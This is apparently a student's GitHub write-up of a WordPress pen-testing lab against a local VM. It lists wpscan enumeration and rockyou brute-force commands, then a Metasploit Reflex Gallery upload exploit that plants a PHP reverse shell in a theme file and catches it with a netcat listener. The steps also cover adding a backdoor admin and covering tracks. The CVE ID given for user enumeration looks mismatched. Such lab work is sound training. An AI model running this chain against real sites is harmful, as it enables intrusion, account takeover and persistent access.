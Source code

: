 # Project 7 - WordPress Pen Testing

Time spent: **8** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. User Enumeration (CVE-2020-7918)

- [ ] Summary:     
  - Vulnerability types: Insecure direct object reference
  - Tested version: 4.2
  - Fixed version: NOT FIXED
  - Affected source code: (http://wpdistillery.vm/wp-login.php)
  - Tools/Resources Used:
  <br /> https://www.kali.org/get-kali/#kali-virtual-machines
  <br /> https://www.kali.org/tools/wpscan
  <br /> https://wpscan.com/
  <br /> password list: rockyou.txt
  - Techniques: BruteForce, Dictionary Attack, Credential Stuffing
  - Preventative Action: Password Complexity, Multi-Factor Authentication (MFA), Password Manager, Account Lockout Policy
  - Commands used:
  <br /> sudo gunzip /usr/share/wordlists/rockyou.txt.gz (extract and move for ease of use)
  <br /> wpscan -h (Display the Help)
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> wpscan --url http://wpdistillery.vm --enumerate u (Finding Usernames)
  <br /> wpscan --url http://wpdistillery.vm -U ~/Desktop/wpusers.txt -P ~/Desktop/rockyou.txt (BruteForce Attack)
  


- [ ] Walkthrough:
<br /> Where's the Beef ?!?
<img src="user_enum1.gif">
<br /> A Successful Attack against all 5 User Accounts took 2min and 11 seconds !?!
<img src="BruteForce.gif">
<br /> The Damage... We got User credentials, PII, and our very own Administrative Account !?!
<img src="damage.gif">


- [ ] Steps to recreate:
<br /> - Try common usernames in the TARGET's login page, guess common passwords. Maybe we'll get some helpful info. Lets PLAN our attack.
<br /> - Kali is a great toolbox. Lets use our handy dandy tool wpSCAN to gather information on a TARGET. Perfome RECONNAISSANCE.
<br /> - After some poking and proding with WPSCAN lets use our collected INTEL to test our might. Commense Brute Force Attack!!! 
<br /> - Have I been pwned? Lets use the compromised credentials. GAIN ACCESS!!!
<br /> - Lets cause some damage...hmmm how about we just add a way to get back in. Add our own administrator ;). MAINTAIN ACCESS
<br /> - Considerations: COVER YOUR TRACKS!!!
  
### 2. Vulnerable Plugin Reflect Gallery (CVE-2015-4133)

- [ ] Summary: 
  - Vulnerability types: Arbitrary File Upload
  - Tested in version: 3.1.3
  - Fixed in version: 3.1.4
  - Tools/Resources Used:
<br /> https://www.kali.org/tools/metasploit-framework/
<br /> exploit/unix/webapp/wp_reflexgallery_file_upload
<br /> https://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/
<br /> https://pentestmonkey.net/tools/web-shells/php-reverse-shell
<br /> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
<br /> https://phoenixnap.com/kb/vim-commands-cheat-sheet
<br /> https://www.kali.org/tools/netcat/

 - Commands used:
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> service postgresql start (for msf)
  <br /> msfdb init (for msf)
  <br /> msfconsole (msf)
  <br /> db status (for msf)
  <br /> search reflex (msf exploit)
  <br /> use 0 (select module)
  <br /> show options
  <br /> set RHOST wpdistillery.vm (target)
  <br /> set LHOST 192.168.33.101 (Kali VM)
  <br /> run
  <br /> shell
  <br /> whoami
  <br /> hostname
  <br /> pwd 
  <br /> ls
  <br /> ../
  <br /> pwd 
  <br /> edit /var/www/public/wp-content/themes/twentyfifteen/archive.php
  <br /> :%d
  <br /> :wq
  <br /> exit
  <br /> nc -nvlp 80
  
  
- [ ] Walkthrough:
<br /> Ole Reliable 
<img src="plugins.gif">
<br /> I've always wanted a Swiss Army Knife
<img src="swiss_army_knife.gif">
<br /> I'll be listening for the Door
<img src="backdoor.gif">

- [ ] Steps to recreate:
<br /> - Scan the Target for a weakness.
<br /> - Bring out the right tool for the job. Use Metasploit Framework to attempt an exploit.  
<br /> - Take aim and shoot. Are we in? Cool, leave a way to Maintain Access. Inject a reverse shell so our target does all the work.
<br /> - Now, we wait and listen. 
<br /> - You are now an agent of chaos

### 3. (Required) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types:
  - Tested in version:
  - Fixed in version: 
- [ ] GIF Walkthrough: 
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...

[ScreenToGif](https://www.screentogif.com/) for Windows

## Notes

Setting up the pen testing environment was really challenging. I had a tough time getting windows 10 to play nice with vagrant and virtual box. I persevered, through trial and error. My saving grace was utilizing the snapshot feature when things went wrong. This was key in troubleshooting and documenting solutions along the way. My advice for my fellow colleagues and academics, don’t get discouraged, our failures are our greatest teachers.

Solutions for Common Isssues:

- https://gitforwindows.org/ (required for windows, install it)
- https://notepad-plus-plus.org/ (use to edit config.yml & hosts file as administrator)
- Create a restore point in Virtual Box once wpdistillery is up and running to revert ( Windows Powershell Failure to reboot vm issue, exploits not functioning issue)
- https://www.virtualbox.org/wiki/Download_Old_Builds_6_1 (for MacOS network adapter issues and KERNAL driver not installed)
- For MacOS check Security & Privacy: Allow apps downloaded from: SELECT app store and identified developers (make sure virtual box isnt being blocked)
- For MacOS in VirtualBoX settings disable Audio (virtual machine aborts issue)

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
